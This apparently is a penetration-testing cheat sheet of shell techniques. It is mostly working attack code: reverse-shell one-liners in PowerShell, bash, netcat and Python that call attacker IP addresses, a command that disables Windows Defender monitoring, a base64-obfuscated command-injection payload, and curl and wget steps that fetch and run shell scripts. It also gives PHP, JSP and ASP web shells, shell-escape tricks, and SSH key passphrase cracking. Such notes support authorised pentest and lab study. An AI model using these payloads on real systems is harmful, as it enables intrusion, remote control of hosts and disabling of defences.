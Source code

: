 ## delete


# Shell
## LISTENING SHELL
- `nc -lnvp 9999`

# [Reverse Shell](https://www.revshells.com/)
With a reverse shell, the attack box will have a listener running, and the target will need to initiate the connection.

If we can execute commands on the target, we can try to create MSFVenom payload and execute it inside target

## Windows
```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.15.60',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

- https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1

### Disable AV
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

## sh files
```bash
#!\bin/bash 

sh -i >& /dev/tcp/10.10.14.5/9999 0>&1
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.5 9999 >/tmp/fs
```

### Execute Reverse Shell File
```bash
# Transfir File to Target
$ curl <MY_IP>:<MY_PORT>/bash.sh -o /tmp/bash.sh
$ wget <MY_IP>:<MY_PORT>/bash.sh 

# Execute Shell
$ ./tmp/bash.sh
$ bash /tmp/bash.sh
```

## Pyton
```py
$ python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.5",9999));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

## Upload PHP file that works like a page
`https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php` 

## Payloads CI
```bash
# Convert reverse shell to base64
$ echo 'sh -i >& /dev/tcp/10.10.14.8/9999 0>&1' | base64

# Send the payload
$ echo${IFS}"c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuOC85OTk5IDA+JjEK"|base64${IFS}-d|bash

# Execute reverse shell
$ bash -c("sh -i >& /dev/tcp/10.10.14.5/4444 0>&1")
$ curl 10.10.11.116/shell.php --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/10.10.14.60/443 0>&1"'`
$ bash -c 'sh -i >%26 /dev/tcp/10.10.14.5/9999 0>%261'`
```

* * *

# Bind Shells
With a bind shell, the target system has a listener started and awaits a connection from a pentester's system.


```bash
bash
$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f

# Connect Attack
$ nc -nv 10.129.41.200 7777
```

* * *

# [Web Shells](https://github.com/jbarcia/Web-Shells/tree/master/laudanum)
`copy from /usr/share/laudanum`

## [PHP](https://github.com/WhiteWinterWolf/wwwolf-php-webshell) 
```bash
<?php SYSTEM($_REQUEST['cmd']); ?>
```

## [ASPX Antak Webshell](https://github.com/samratashok/nishang/tree/master/Antak-WebShell)
`copy from /usr/share/nishang/Antak-WebShell`

> Antak is a web shell built-in ASP.Net. Antak utilizes PowerShell to interact with the host, making it great for acquiring a web shell on a Windows server.

## JSP
```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

## ASP
```
<% eval request("cmd") %>
```

## [War](https://github.com/BustedSec/webshell/blob/master/webshell.war)
> java/war (Tomcat, Axis2, or WebLogic)

```bash
$ wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp
$ zip -r backup.war cmd.jsp 
```



# Interactive Shells
```bash
# Python
python3 -c 'import pty;pty.spawn("/bin/bash")'
"CTRL+Z"
stty raw -echo; fg
export TERM=xterm

# /bin/sh -i
/bin/sh -i

# Perl
perl —e 'exec "/bin/sh";'

## The command should be run from a script.
perl: exec "/bin/sh";


# Ruby
## The command should be run from a script.
ruby: exec "/bin/sh"


# Lua
## The command should be run from a script.
lua: os.execute('/bin/sh')


# AWK
awk 'BEGIN {system("/bin/sh")}'


# Find
find / -name nameoffile -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;


# Using Exec To Launch A Shell
find . -exec /bin/sh \; -quit

# VIM
vim -c ':!/bin/sh'


# Vim Escape
vim
:set shell=/bin/sh
:shell
```

## Generate SSH Key
### Victim
```bash
$ ssh-keygen
$ cd ./ssh
$ cat id_rsa.pub > authorized_keys
$ chmod 700 ~/
$ chmod 700 ~/.ssh
$ chmod 600 ~/.ssh/authorized_key
```

### Host
```bash
$ nano id_rsa
(Copy from id_rsa victim)
$ chmod 400 id_rsa
$ ssh -i id_rsa matt@10.10.11.136
```

### PassPhrase 
```bash
$ python3 /usr/share/john/ssh2john.py id_rsa > hash.txt
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
$ john --show hash.txt
```

